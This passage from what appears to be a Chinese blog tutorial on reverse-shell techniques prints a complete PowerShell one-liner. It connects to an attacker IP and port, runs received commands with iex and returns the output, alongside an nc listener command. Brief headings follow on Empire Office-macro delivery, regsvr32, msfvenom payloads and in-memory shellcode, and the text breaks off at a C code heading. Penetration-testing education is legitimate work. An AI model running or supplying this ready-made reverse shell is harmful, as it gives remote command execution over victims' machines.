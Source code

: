 [![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

#### 3）自定义powershell函数反弹shell

利用powershell创建一个Net.Sockets.TCPClient对象，通过Socket反弹tcp shell。

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
# 攻击者(192.168.159.134) 开启监听 
nc -lvp 6666

# 目标机执行 
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.159.134',6666);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

#### 4）Empire 结合office反弹shell

Empire(https://github.com/EmpireProject/Empire)基于powershell的后渗透攻击框架，可利用office宏、OLE对象插入批处理文件、HTML应用程序(HTAs)等进行反弹shell。

- 利用office宏反弹shell 
- 利用office OLE对象插入bat文件反弹shell

**Relevant Link:** 

```
https://www.anquanke.com/post/id/99793
```

### 10. regsvr32反弹shell

## 0x5：msf生成payload反弹shell

### 1. 生成脚本解释型代码并执行

本质上就是在目标机器执行了一段Python代码，和上一章节的python反弹shell没有本质区别。

### 2. 生成编译型二进制文件并执行

本质上就是在目标机器执行了一个二进制程序。

### 3. 内存shellcode执行

通过shellcode直接调用glibc或者syscall完成反弹shell。 

#### 1）C代码
